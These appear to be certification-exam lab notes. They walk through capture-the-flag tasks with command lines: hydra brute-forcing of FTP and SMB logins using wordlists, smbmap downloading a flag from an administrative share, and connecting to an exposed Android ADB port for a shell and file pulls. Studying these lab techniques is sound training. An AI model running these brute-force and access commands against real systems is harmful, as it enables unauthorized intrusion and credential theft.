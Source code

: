 ### Crack the FTP credentials to obtain file stored into FTP server an enter the content as the answer

* Find IP with FTP open port: nmap -p 21 IP/Subnet
* if we know username: `hydra -l user -P passlist.txt ftp://IP`
* if we don't know username and psw: `hydra -L /user.txt -P password.txt ftp://IP` or `hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://IP` &#x20;
* Login using FTP credentials obtained, get flag and cat it.

{% content-ref url="../tools/hydra.md" %}
[hydra.md](../tools/hydra.md)
{% endcontent-ref %}

### **Crack the SMB credentials knowing username to obtain file stored into share**

**Brute force smb login**

```bash
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
```

#### Download file stored into share

```bash
smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
```



### **Entropy**

### Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder

* Scan adb port: `nmap ip -sV -p 5555`
* Connect adb: `adb connect IP:5555`
* Access mobile device: `adb shell`
* Elevate privilege using: `sudo -i` (if it is possile)
* `pwd` --> `ls` --> `cd sdcard/Notifications/Scan` --> `ls` --> `cat secret.txt` (If you can't find, check in others folders)
* Download files: `adb pull /sdcard/Notifications/Scan` **Do it in another shell, without adb connection!**
* We've three elf files, now we need to calcolate entropy for each of them using this command: `ent file.elf`
* After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: `sha384sum file.elf` and consider only the last 4 digits of the hash result.

## **FTP**

To download resources from FTP service we can use following commands:

